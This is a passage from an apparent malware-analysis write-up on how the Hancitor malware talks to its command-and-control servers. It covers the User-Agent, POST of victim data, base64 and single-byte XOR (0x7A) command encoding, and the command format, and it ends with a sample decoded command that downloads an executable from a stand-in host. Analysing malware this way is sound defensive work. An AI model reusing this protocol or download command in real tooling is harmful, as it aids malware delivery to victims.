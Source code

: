 

## C&C Communication

[![](/assets/images/malware-analysis/Hancitor/c2_communication.png)](/assets/images/malware-analysis/Hancitor/c2_communication.png)
<center> <u>Figure</u>(10): <u>The malware checks for 200 OK response before retrieving the C2 commands.</u> </center>
<br>
Hancitor extracts the C2 URLs and initializes the connection with the remote end using the high level `Wininet.dll` library APIs. It uses the following hard-coded User-Agent `{"Mozilla/5.0 (Windows NT 6.1; Win64; x64; Trident/7.0; rv:11.0) like Gecko"}` which is very common.

First, the collected host profile is sent using HTTP POST request. Secondly, it accepts the matched C2 command based on the gathered information about the victim. The received C2 command is **base64** encoded and **XOR** encrypted with a single-byte key `0x7A`. The malware performs the necessary decoding before interpreting the command.

The command consists of 4 parts:
1.  A character from the set `{'b','e','l','n','r'}` to specify what action to be performed.
2. The colon character `:` as delimiter.
3. **URL** of the malicious content to be downloaded. 		
4. The bar character `|` as delimiter.

```sh
# i.e decoded command

 X:http://badsite.com/malware.exe|

```
